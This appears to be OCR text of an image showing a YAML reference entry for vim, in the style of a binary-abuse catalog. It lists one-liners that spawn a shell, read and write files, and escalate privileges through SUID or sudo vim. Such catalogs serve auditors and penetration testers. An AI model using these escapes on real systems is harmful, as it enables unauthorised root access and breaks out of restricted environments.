 ```yaml
---
functions:
  shell:
    - code: vim -c ':!/bin/sh'
    - code: |
        vim
        :set shell=/bin/sh
        :shell
    - description: This requires that vim is compiled with Python support.
      code: vim -c ':py import os;os.system("sh")'
  file-write:
    - code: |
        vim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vim file_to_read
  suid:
    - code: ./vim -c ':!/bin/sh -p'
  sudo:
    - code: sudo vim -c ':!/bin/sh'
    - code: sudo vim -c ':py import os;os.system("sh")'
      description: This requires that vim is compiled with Python support.
---
```

